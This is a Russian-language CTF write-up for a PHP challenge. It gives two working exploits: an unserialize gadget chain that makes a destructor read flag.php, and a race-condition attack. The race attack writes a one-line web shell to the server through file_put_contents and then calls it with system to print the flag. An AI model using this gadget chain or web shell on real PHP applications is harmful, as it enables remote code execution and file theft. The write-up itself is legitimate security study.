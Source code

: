 ﻿На видео: [2:53:38](https://vk.com/video-114366489_456239197?t=2h53m38s)

Два пути решения:

1) Собрать читалку файлов на unserialize:

```php
<?php

include './index.php';

$cart = new Cart('lolkek');
$item = new Item('flag.php',150);
$cart->addItem($item);
$user = new User("asdasdsad", "sadasdas", "adfsdafsd", "asdsada", $cart);
unserialize(serialize($user));

echo urlencode(serialize($user));
```

Как работает:
При десериализации объекта класса вызывается "магический" метод `__destruct`
1) При вызове `__destruct` юзера происходит удаление корзины (`$this->cart->delete()`)
2) При удалении корзины вызывается `$item->show()` для каждого айтема в корзине
3) `$item->show()` показывает содержимое файла, название которого в поле `info` (`echo file_get_contents($this->info)`)

Далее логика следующая, создаем объект `Cart`, создаем объект `Item` с `flag.php` (известно из исходников) в `info`, кладем айтем в корзину и создаем юзера с этой корзиной. Сериализуем объект и видим на страничке флаг.

Забавный факт: без просмотра html кода страницы в браузере флаг не покажется, т.к. <?php будет воспринят как валидный тег.

2) Race condition

При создании пользователя вызывается `file_put_contents()`, куда мы можем передать произвольный путь и произвольные данные. Путь корня web сервера можем узнать затриггерив ошибку с помощью невалидного пэйлоада на ансериалайз.

Схема эксплуатации:

<?php

include './index.php';
$user = new User("../public/race.php", "sadasdas", "<?=$_GET[a]($_GET[b]);?>", "asdsada", "asdasdasd");
echo urlencode(serialize($user));

Далее используем либо Burp Suite с интрудером в побольше потоков, либо пишем скрипт на удобном языке, который в несколько потоков дропает этот пейлоад в таск и дергает race.php?a=system&b=cat%20flag.php

Рано или поздно повезет, скрипт выиграет гонку и выведет флаг
